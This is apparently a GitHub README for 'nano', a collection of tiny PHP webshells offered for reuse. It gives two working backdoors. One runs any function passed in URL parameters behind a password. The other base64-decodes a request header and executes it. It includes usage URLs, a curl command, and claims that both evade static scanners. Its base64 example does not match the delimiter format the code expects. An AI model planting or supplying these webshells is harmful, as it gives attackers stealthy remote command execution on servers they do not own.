 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

**Note:** You may need to tweak some parts of the code if it doesn't work out for your.\
For example, if short tags are disabled, you will need to replace <? with <?php.

### Nano
```php
<?$x=$_GET;($x[p]=='_'?$x[f]($x[c]):y);
```
#### Features
- 39 bytes in size
- Can't be detected by static code scanners
- Supports authentication

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Ninja
```php
<?$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: xc3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
The nano project is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
